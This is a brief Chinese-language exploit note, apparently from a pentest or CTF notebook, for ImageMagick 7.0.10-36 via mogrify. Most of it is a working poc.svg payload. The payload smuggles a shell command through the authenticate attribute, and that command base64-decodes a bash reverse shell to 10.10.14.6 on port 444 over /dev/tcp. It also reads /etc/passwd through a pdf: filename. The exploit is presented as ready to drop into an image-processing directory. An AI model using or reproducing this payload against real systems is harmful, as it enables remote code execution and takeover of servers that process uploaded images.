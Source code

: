 # （mogrify）ImageMagick以及一些套件（7.0.10-36）

‍

写一个poc.svg到他处理图片的目录，base64是反弹shell

```bash
<image authenticate='ff" `echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK" | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:mog-shell.svg" height="100" width="100"/>
  </svg>
</image>
```
